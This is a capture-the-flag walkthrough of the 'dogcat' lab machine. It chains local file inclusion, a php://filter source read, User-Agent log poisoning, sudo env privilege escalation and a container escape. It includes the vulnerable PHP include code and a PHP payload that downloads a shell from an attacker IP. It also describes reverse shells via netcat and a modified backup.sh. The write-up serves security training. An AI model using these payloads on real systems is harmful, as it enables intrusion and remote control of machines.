 # dogcat

We start with the port scan using nmap

`nmap -sC -sV 10.10.1.190` 

Finds 2 open ports. SSH running on port 22 and web server on port 80.

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image.png)

Fuzzing the website for directories reveals a page named `flag.php` , very interesting one. We leave it there for the time being and come back for it later.

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%201.png)

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%202.png)

The webpage seems to be minimal with two buttons that generate an image of either a dog or a cat.

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%203.png)

Looking at the URL, we can see the possibilities of LFI.

`http://10.10.1.190/?view=dog`

Through trial and error, we discover that the URL must contain either the keyword `cat` or `dog`—likely due to specific functionality in the backend code. When we test the following URL, we receive an error.

`http://10.10.1.190/?view=cat/../../../../../../../../etc/passwd`

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%204.png)

The error reveals that the file name has been appended with `.php` extension. Next we try the PHP filter wrapper exploitation to get the source code for `index` .

`http://10.10.1.190/?view=php://filter/read=convert.base64-encode/cat/resource=index`

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%205.png)

Decoding it using cyberchef reveals the mechanism implemented behind the scene. The code confirms our initial findings: URLs must include either "cat" or "dog", and the extension `.php` is automatically appended.

```php

        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

From our initial directory fuzzing, we discovered a page named `flag.php`. Let's attempt to access this page.

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%206.png)

Decoding it gives us the first flag. 

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%207.png)

Using our gathered information, we attempt to access the `/etc/passwd` file. To prevent the automatic extension from being added, we pass an empty extension parameter `ext=`.

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%208.png)

Not much information was gathered from here.

After researching, we discover log poisoning as a potential attack vector. We decide to try this technique by using the User-Agent method to deliver our payload to the server. Using Burp Suite, we capture a request and modify its User-Agent header to contain our payload.

`<?php file_put_contents('shell.php',file_get_contents('http://{}Attacker ip/shell.php')); ?>`

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%209.png)

To execute this successfully, we need to serve the reverse shell file from our local server. After sending the request, monitor for completed GET requests.

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%2010.png)

Once complete, set up netcat listener on the port configured in the script and use the browser to access `http://{machine ip}/shell.php`.

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%2011.png)

Once inside the machine we find the second flag at `/var/www/` .

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%2012.png)

Next, we run `sudo -l` to identify any commands we can exploit to obtain a root shell. 

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%2013.png)

It reveals we can execute `/usr/bin/env`  as root without password.

Searching for "env" on GTFOBins reveals the command needed to obtain a root shell.

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%2014.png)

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%2015.png)

Subsequently we find the third flag.

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%2016.png)

Hold on—there's one more flag to find. Looking at the room description, we see a mention of getting out of a container. When running the `hostname` command, we get an alphanumerical value. If this were a regular machine, it would have been named something like "dogcat" instead.

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%2017.png)

While searching through the directories for clues, we discover a `backup.sh` file in the `/opt` directory. It's backing up from `/root/container`, but no such folder exists in the root directory. This suggests it might be referring to the host machine. The backup file generated has a very recent timestamp compared to the script, which means it might be running at regular intervals. We modify the code in `backup.sh` to get a reverse shell back to our machine.

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%2018.png)

Now we have a root shell on the host machine and the final flag.

![image.png](dogcat%201c32d0541948809eb97bf7cd7c5cdb97/image%2019.png)